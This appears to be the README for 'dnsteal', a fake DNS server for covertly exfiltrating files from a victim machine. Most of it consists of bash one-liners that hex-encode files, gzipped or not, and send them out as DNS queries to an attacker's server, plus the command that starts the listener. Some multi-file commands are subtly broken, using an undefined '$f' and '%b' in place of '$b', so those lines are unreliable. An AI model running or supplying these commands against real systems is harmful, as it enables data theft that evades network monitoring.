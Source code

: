 # dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:

![Alt text](./dns-hijacking.webp)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.filename.com; done
```

**Support for multiple files**

```bash
for filename in $(ls); do for b in $(xxd -p $f); do dig +short @server %b.$filename.com; done; done
```

**gzip compression supported**

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @server $b.filename.com; done
```

or for multiple, gzip compressed files:

```bash
for filename in $(ls); do for b in $(gzip -c $filename | xxd -p); do dig +short @server %b.$filename.com; done; done
```

~x90
